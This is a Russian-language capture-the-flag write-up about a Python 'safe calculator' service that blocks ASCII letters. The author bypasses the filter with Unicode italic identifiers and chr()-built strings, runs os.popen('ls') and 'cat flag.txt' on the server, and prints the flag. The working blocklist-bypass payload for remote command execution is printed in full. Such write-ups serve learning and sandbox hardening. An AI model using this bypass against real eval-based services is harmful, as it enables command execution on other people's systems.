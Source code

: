 # Безопасный калькулятор: Write-up #
Как и прошлый калькулятор, открываем этот через `netcat`:

    $ nc 62.173.140.174 10001

![](writeup/calc.jpg)

В отличие от прошлого калькулятора, в этом заблокировали все `ascii-letters`, что проверяется довольно просто:

    >>> print
    HACK ATTEMPTED!!!
[Здесь](https://theasciicode.com.ar/) можно посмотреть, что заблокировано: 65-90 и 97-122 символы.
Честно говоря, долго я возился на этом моменте, в основном пытался скормить октальные символы (aka `\123\131\111` и т.п.). Хотелось воспользоваться хинтом, но сначала он мне казался полностью лишённым смысла:
> Думаю тебе стоит спросить у Итальянцев о том, как они пишут код)))
Интернет выдавал лишь это:

![](writeup/meme.jpg)

А потом допёрло: `"итальянский код" == "italian code" ≈≈ "italic code" == "курсивный код"`. Воспользовавшись [генератором](https://capitalizemytitle.com/italic-text-generator/), попробовал следующее:

    >>>𝘱𝘳𝘪𝘯𝘵
    <built-in function print>

![](writeup/lapenko.jpg)

Осталось дело за малым - сформировать пэйлоад:
    
    >>> __𝘪𝘮𝘱𝘰𝘳𝘵__("𝘰𝘴").𝘱𝘰𝘱𝘦𝘯("𝘭𝘴").𝘳𝘦𝘢𝘥()
    No module named '𝘰𝘴'
А вот тут загвоздка: мы можем вызывать функции, но не можем писать строки, они будут курсивные (нехорошие). Так что придётся каждый символ писать через функцию `chr()`, так что "os" == chr(111)+chr(115). То же и с командой. Так что ввод будет следующим:
    
    # __import__("os").popen("ls").read()
    >>> __𝘪𝘮𝘱𝘰𝘳𝘵__(𝘤𝘩𝘳(111)+𝘤𝘩𝘳(115)).𝘱𝘰𝘱𝘦𝘯(𝘤𝘩𝘳(108)+𝘤𝘩𝘳(115)).𝘳𝘦𝘢𝘥()
    flag.txt
    requirements.txt
    service.py

Читаем флаг (ох уж эта посимвольная пытка):

    # __import__("os").popen("cat flag.txt").read()
    >>> __𝘪𝘮𝘱𝘰𝘳𝘵__(𝘤𝘩𝘳(111)+𝘤𝘩𝘳(115)).𝘱𝘰𝘱𝘦𝘯(𝘤𝘩𝘳(99)+𝘤𝘩𝘳(97)+𝘤𝘩𝘳(116)+" "+𝘤𝘩𝘳(102)+𝘤𝘩𝘳(108)+𝘤𝘩𝘳(97)+𝘤𝘩𝘳(103)+"."+𝘤𝘩𝘳(116)+𝘤𝘩𝘳(120)+𝘤𝘩𝘳(116)).𝘳𝘦𝘢𝘥()
    CODEBY{bl4ck_l1st_byp4ss}

P.S. Как и в калькуляторе, тем же способом сдампил [service.py](writeup/service.py), смотрите на здоровье))
